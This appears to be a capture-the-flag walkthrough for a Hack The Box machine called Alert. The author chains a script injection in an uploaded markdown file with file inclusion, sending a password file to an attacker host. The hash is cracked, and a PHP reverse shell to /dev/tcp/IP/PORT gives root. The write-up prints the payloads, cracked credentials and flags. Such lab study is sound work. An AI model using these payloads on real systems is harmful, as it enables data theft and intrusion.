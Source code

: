 ﻿# ENUMERATION
---

## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22 | ssh |
| 80 | http |

We need to add `alert.htb` to `/etc/hosts` in order to access the website

`echo 'IP alert.htb' | sudo tee -a /etc/hosts`

Nice, let's begin with reconnaissance.
# RECONNAISSANCE
---

When we first access the website, we can find this:

![Pasted image 20250110145426.png](../../IMAGES/Pasted%20image%2020250110145426.png)

It is a markdown viewer website, we can only upload files with a `.md` extension, which is the markdown extension, let's upload a file and analyze its behavior using burp:

![Pasted image 20250110150021.png](../../IMAGES/Pasted%20image%2020250110150021.png)


# EXPLOITATION
---


The server basically processes the file with a function called `visualizer.php`, we need to upload a malicious `.md` file, I found we can perform [LFI](../../Bug%20Bounty/Vulnerabilities/SERVER%20SIDE%20VULNERABILITIES/FILE%20INCLUSION%20VULNERABILITIES/LOCAL%20FILE%20INCLUSION%20(LFI).md) let's reproduce these steps:

```js
<script>
fetch("http://alert.htp/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd")
 .then(response => response.text())
 .then(data => {
 fetch("http://IP:PORT/?file_content=" + encodeURIComponent(data));
 });
</script>
```

We are using `statistics.alert.htb` since I found that subdomain while fuzzing, it needed credentials.


```ad-hint
1. Upload a markdown file with the script embedded above.
2. Set up a python server to get the contents of the file we are going to read.
3. Receive the data in our python server.


##### Output
----

We got the following data from `.htpasswd`, htpasswd is used to create and update the flat-files used to store usernames and password for basic authentication of HTTP users.

It is url encoded, so, we get this: 

`%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24igG8WBtQ1xYDTQdLjSWZQ%2F%0A%3C%2Fpre%3E%0A`

When we decode the data:

`<pre>albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/</pre>`

Let's use john to crack the hash, we can use the following command: 

`john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long hash.txt`

We get the following output:


So, we got the following credentials:

`albert`:`manchesterunited`
```

Let's log into ssh with the found credentials:

![Pasted image 20250110155457.png](../../IMAGES/Pasted%20image%2020250110155457.png)

We are able to read `user.txt`:

![Pasted image 20250110155516.png](../../IMAGES/Pasted%20image%2020250110155516.png)

```ad-important
User: `c0ebbe25578f5ccb7a536e93d4e69238`
```


Let's begin PRIVESC

# PRIVILEGE ESCALATION
---


Let's run linpeas:


![Pasted image 20250110160337.png](../../IMAGES/Pasted%20image%2020250110160337.png)

First, there's something running on port `8080`, let's use ssh tunneling, but I also found something interesting:


![Pasted image 20250110160647.png](../../IMAGES/Pasted%20image%2020250110160647.png)

There's a directory that has root access, let's reproduce the following steps in order to get a root shell:

```php
<?php
exec("/bin/bash -c 'bash -i >/dev/tcp/IP/PORT 0>&1'");
?>
```

```ad-hint
1. Create a `.php` file with the contents above, save the file at `opt/website-monitor/config`
2. Use ssh tunneling to view the contents of the website running on port `8080`: `ssh -L 8080:127.0.0.1:8080 albert@alert.htb`.
3. Set up listener regarding the port we specified in the file we created.
4. Visit `127.0.0.1:8080/nameofthefileuploaded.php` 
5. Receive root connection on our listening netcat.

### Output
----


```

We got a root shell, let's read flag:

![Pasted image 20250110161352.png](../../IMAGES/Pasted%20image%2020250110161352.png)

```ad-important
root: `f6a8586a751b4a7f1203d20b0fef1e6a`
```

